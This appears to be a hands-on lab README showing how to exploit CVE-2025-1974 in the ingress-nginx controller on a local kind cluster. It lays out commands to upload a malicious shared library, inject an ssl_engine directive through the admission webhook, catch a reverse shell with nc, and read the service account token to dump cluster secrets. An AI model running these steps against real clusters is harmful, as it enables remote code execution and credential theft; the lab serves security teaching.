

# CVE-2025-1974 – Ingress Nightmare

Welcome to the Kubernetes Security Ingress Nightmare Lab!  
In this lab, you will learn how to exploit the **CVE-2025-1974** vulnerability in the **ingress-nginx** controller to gain access to the underlying container and then pivot to other systems. If you have not yet read about the vulnerability, I highly recommend doing so. Wiz researchers wrote an excellent post about the vulnerability and their research process: <https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities>

> **TL;DR**
>
> If you are only interested in how to exploit the vulnerability and do not need the details of the lab, jump directly to the [CVE-2025-1974](#cve-2025-1974) section.

---

## Prerequisites

- A Kubernetes cluster. See [Create New Kubernetes Cluster Using Kind](../create-cluster/README.md)

---

## Setup

To replicate the environment, you will use the **registry.k8s.io/ingress-nginx/controller:v1.10.0** version of the ingress-nginx controller, which is vulnerable to **CVE-2025-1974**.

1. **Deploy the ingress-nginx controller:**
    ```bash
    kustomize build ingress-nginx/base | kubectl apply -f -
    ```

1. **Verify that the ingress-nginx pods are running properly:**
    ```bash
    kubectl get pods -n ingress-nginx
    # Example output:
    #
    # NAME                                        READY   STATUS      RESTARTS   AGE
    # ingress-nginx-admission-create-f9xwc        0/1     Completed   0          5d2h
    # ingress-nginx-admission-patch-dfckh         0/1     Completed   1          5d2h
    # ingress-nginx-controller-6f78ddcd8f-jbnt9   1/1     Running     0          14m
    ```

1. **Verify that the ingress-nginx services were created properly:**
    ```bash
    kubectl get svc -n ingress-nginx
    # Example output:
    #
    # NAME                                 TYPE           CLUSTER-IP       EXTERNAL-IP   PORT(S)                                      AGE
    # ingress-nginx-controller             LoadBalancer   10.108.69.79     <pending>     80:32621/TCP,443:31942/TCP,10254:31803/TCP   5d2h
    # ingress-nginx-controller-admission   ClusterIP      10.101.210.210   <none>        443/TCP
    ```

1. **Port-forward the admission webhook and ingress-nginx controller to your local machine** (using separate terminals):
    - Admission webhook:
      ```bash
      kubectl port-forward svc/ingress-nginx-controller-admission -n ingress-nginx 8443:443
      ```
    - Ingress-nginx controller:
      ```bash
      kubectl port-forward svc/ingress-nginx-controller -n ingress-nginx 8080:80
      ```

1. **Compile the [shared libraries](./shared-library/README.md).**  
   Make sure to replace the `YOUR_IP_ADDRESS_HERE` and `YOUR_PORT_HERE` placeholders in the [`reverse_shell.c`](./shared-library/reverse_shell.c) file with the IP address and port of the system that will receive the reverse shell.
    ```bash
    make shared-libraries
    ```

---

## Quickstart

You can exploit Ingress Nightmare in two steps.

### Step 1

In this step, you upload the shared library into the ingress-nginx pod file system by triggering [client body buffering](https://nginx.org/en/docs/http/ngx_http_core_module.html#client_body_buffer_size) on the controller.

1. **Run the `step1.py` script:**
    ```bash
    python3 step1.py
    # Example output:
    #
    # Creating socket connection to NGINX...
    # Sending malicious library...
    # Sent shared-library/hello_engine.so (16392 bytes)
    # Sending padding data...
    # Sent 26632/1000000 bytes (2.7%)...
    # Sent 36872/1000000 bytes (3.7%)...
    # Sent 47112/1000000 bytes (4.7%)...
    # Sent 57352/1000000 bytes (5.7%)...
    # Sent 67592/1000000 bytes (6.8%)...
    ```

1. **Check the logs on the ingress-nginx pod** to confirm the controller is buffering the request body to a temporary file:
    ```bash
    kubectl logs -f svc/ingress-nginx-controller -n ingress-nginx
    ```
    Alternatively, if you use `k9s`, go to **Pods** → **ingress-nginx-controller** → press `<s>` to view logs.

    **Example log line on the ingress-nginx pod**:
    ```log
    2025/03/30 05:48:52 [warn] 45#45: *109947 a client request body is buffered to a temporary file /tmp/nginx/client-body/0000000001, client: 127.0.0.1, server: _, request: "POST /some-arbitrary-path HTTP/1.1", host: "localhost:8080"
    ```

### Step 1.5

Let’s understand what happened and see how things look from the perspective of ingress-nginx and Kubernetes.

1. The **ingress-nginx** controller buffers your file in `/tmp/nginx/client-body/`, for example `/tmp/nginx/client-body/0000000001`, but if you check the pod’s file system, the file does not appear:
    ```bash
    kubectl exec -it svc/ingress-nginx-controller -n ingress-nginx -- sh
    # inside the container
    ls -l /tmp/nginx/client-body/
    ```
    According to the Wiz blog post, NGINX [immediately removes the file](https://github.com/nginx/nginx/blob/e3a9b6ad08a86e799a3d77da3f2fc507d3c9699e/src/os/unix/ngx_files.c#L287).

1. **Locate the file on the host.** This process may vary depending on your Kubernetes provider. If you are running your cluster with **kind**, you can do the following:

    - **Identify the worker node** running the ingress-nginx pod, for example `workshop-cluster-worker`:
      ```bash
      kubectl get pods -n ingress-nginx -o wide
      # Example output:
      #
      # NAME                                        READY   STATUS      RESTARTS   AGE    IP           NODE                       NOMINATED NODE   READINESS GATES
      # ingress-nginx-admission-create-f9xwc        0/1     Completed   0          5d2h   <none>       workshop-cluster-worker2   <none>           <none>
      # ingress-nginx-admission-patch-dfckh         0/1     Completed   1          5d2h   <none>       workshop-cluster-worker3   <none>           <none>
      # ingress-nginx-controller-6f78ddcd8f-jbnt9   1/1     Running     0          72m    10.244.3.2   workshop-cluster-worker    <none>           <none>
      ```
    - **Enter the worker node:**
      ```bash
      docker exec -it workshop-cluster-worker /bin/bash
      ```
    - **Find the PID and file descriptor** of the shared library file, for example PID `903`, FD `96`:
      ```bash
      ls -l /proc/*/fd | grep '/tmp/nginx/client-body/' -B 100
      # Example output:
      #
      # lrwx------ 1 statd 82 64 Mar 30 04:58 95 -> socket:[424207]
      #
      # /proc/903/fd:
      # total 0
      # lr-x------ 1 statd 82 64 Mar 30 04:58 0 -> /dev/null
      # l-wx------ 1 statd 82 64 Mar 30 04:58 1 -> pipe:[418256]
      # lrwx------ 1 statd 82 64 Mar 30 04:58 10 -> socket:[424109]
      # ...
      # lrwx------ 1 statd 82 64 Mar 30 04:58 96 -> /tmp/nginx/client-body/0000000001 (deleted)
      ```
    - **Map the OS PID to the container PID**:
      ```bash
      cat /proc/903/status | grep NSpid
      # Example output:
      #
      # NSpid:  903   46
      ```
      The OS PID is `903`, and the container PID is `46`.

1. With the PID and FD known, you will trigger **CVE-2025-1097** (auth-tls-match-cn Annotation Injection) by simulating a malicious Admission Webhook request that tricks ingress-nginx into **loading and running** (**CVE-2025-1974**) your malicious shared library.

    - Open [`poc.json`](./poc.json) and locate the `nginx.ingress.kubernetes.io/auth-tls-match-cn` annotation.  
      Replace the PID and FD with the actual values from above, for example:
      ```
      ssl_engine /proc/46/fd/96;
      ```
    - **Send the request** to the ingress-nginx controller:
      ```bash
      curl https://localhost:8443/ -H "Content-Type: application/json" --data @poc.json -k -v
      ```
    - **Check the logs** on the ingress-nginx pod to confirm it loaded and executed your shared library:
      ```log
      I0330 06:47:32.522258      13 backend_ssl.go:67] "Adding secret to local store" name="ingress-nginx/tls-poc"
      W0330 06:47:32.522564      13 controller.go:1108] Error obtaining Endpoints for Service "/myservicea": no object matching key "/myservicea" in local store
      E0330 06:47:32.547547      13 main.go:96] "invalid ingress configuration" err=<

              -------------------------------------------------------------------------------
              Error: exit status 1
              ingress-nightmare lab: Engine invoked with ID: '/proc/46/fd/96' (expected: 'hello')
              ingress-nightmare lab: Hello World engine initialized successfully
              2025/03/30 06:47:32 [emerg] 470#470: "return" directive is not allowed here in /tmp/nginx/nginx-cfg116469926:443
              nginx: [emerg] "return" directive is not allowed here in /tmp/nginx/nginx-cfg116469926:443
              nginx: configuration file /tmp/nginx/nginx-cfg116469926 test failed
              ingress-nightmare lab: Process ID: 470, User ID: 101

              -------------------------------------------------------------------------------
      > ingress="default/"
      ```

### Step 2

Step 2 automates what you did in Step 1.5: it brute-forces the correct PID and FD of the malicious shared library file.

1. **If `step1.py` has finished, run it again** to place the file into the temporary directory:
    ```bash
    python3 step1.py
    ```

1. **Run `step2.py`.** It may take a while, so be patient:
    ```bash
    python3 step2.py
    ```

1. **Check the logs** on the ingress-nginx pod to confirm it loaded and executed your malicious shared library. Because `step2.py` is very noisy, you can filter the logs:
    ```bash
    kubectl logs -f svc/ingress-nginx-controller -n ingress-nginx | grep "ingress-nightmare lab:"
    # Example output:
    #
    # ingress-nightmare lab: Engine invoked with ID: '/proc/49/fd/90' (expected: 'hello')
    # ingress-nightmare lab: Hello World engine initialized successfully
    # ingress-nightmare lab: Process ID: 10689, User ID: 101
    ```

---

## CVE-2025-1974

This vulnerability occurs when the ingress-nginx controller loads a shared library from a file descriptor.

### Simulate an Attacker Inside the Cluster

1. **Create a Linux Alpine pod** to simulate an attacker inside the cluster:
    - **Create the pod**:
      ```bash
      kubectl apply -f alpine.yaml
      ```
    - **Get the pod’s IP address**:
      ```bash
      kubectl get pods alpine -o wide
      # Example output:
      #
      # NAME      READY   STATUS    RESTARTS   AGE   IP           NODE
      # alpine    1/1     Running   0          10m   10.244.1.3   workshop-cluster-worker
      ```
    - **Copy the `cve-2025-1974.py` script and the shared library** to the pod:
      ```bash
      kubectl cp cve-2025-1974.py alpine:/root/cve-2025-1974.py
      kubectl cp shared-library/reverse_shell.c alpine:/root/reverse_shell.c
      ```
    - **Get a shell** on the Alpine pod:
      ```bash
      kubectl exec -it alpine -- sh
      ```
    - **Install dependencies** (`tmux`, `python3`, etc.):
      ```bash
      apk add tmux python3 py3-requests gcc build-base libc-dev openssl-dev curl kubectl
      ```
    - **Compile the reverse shell shared library**:
      > Replace `YOUR_IP_ADDRESS_HERE` and `YOUR_PORT_HERE` in `reverse_shell.c` with the actual IP address and port on which your Alpine pod listens.
      ```bash
      cd /root
      gcc -fPIC -shared -o reverse_shell.so reverse_shell.c -lcrypto
      ```

1. **Use `tmux`** (or multiple `exec` sessions) to split your terminal and run a `nc` listener:
    ```bash
    # Start the listener
    nc -nlvp 1337
    ```

1. **Run `cve-2025-1974.py`** to start the attack:
    ```bash
    cd /root
    python3 cve-2025-1974.py --target="ingress-nginx-controller.ingress-nginx.svc.cluster.local:80" --webhook-target="ingress-nginx-controller-admission.ingress-nginx.svc.cluster.local:443" --engine-path=reverse_shell.so
    ```

    

1. **Wait for the reverse shell**:
    ```log
    listening on [::]:1337 ...
    connect to [::ffff:10.244.1.3]:1337 from [::ffff:10.244.1.4]:60900 ([::ffff:10.244.1.4]:60900)
    bash: cannot set terminal process group (13): Not a tty
    bash: no job control in this shell
    ingress-nginx-controller-6f78ddcd8f-xl6fl:/etc/nginx$ ls
    fastcgi.conf
    fastcgi.conf.default
    fastcgi_params
    fastcgi_params.default
    ...
    ```

---

### Post-Exploitation

#### Exfiltrate the ingress-nginx Service Account Token

1. In your netcat shell, **exfiltrate the ingress-nginx service account token**:
    ```bash
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    # Example output:
    #
    # eyJhbGciOiJSUzI1NiIsImtpZCI6IiJ9...
    ```

1. On the attacker pod, **use `kubectl` with the ingress-nginx service account token**:
    ```bash
    export TOKEN=<ingress-nginx-service-account-token>
    kubectl --token=$TOKEN get pods -A
    ```

1. You can also **retrieve all secrets** in all namespaces and watch their contents:
    ```bash
    kubectl --token=$TOKEN get secrets -A -o json
    ```

#### Impact

Compromising this service account token grants broad, read-only access to critical Kubernetes resources cluster-wide, including listing and watching secrets, pods, nodes, namespaces, and more. An attacker could harvest sensitive information (such as credentials or TLS keys) from secrets, monitor real-time changes to workloads, and gather detailed metadata about the cluster. This level of access could enable further attacks or pivoting to other systems.

---

## Cleanup

1. **Clean up the environment**:
    ```bash
    kubectl delete -f ingress-nginx/base
    kubectl delete -f alpine.yaml
    ```

---

## Resources

- <https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities>
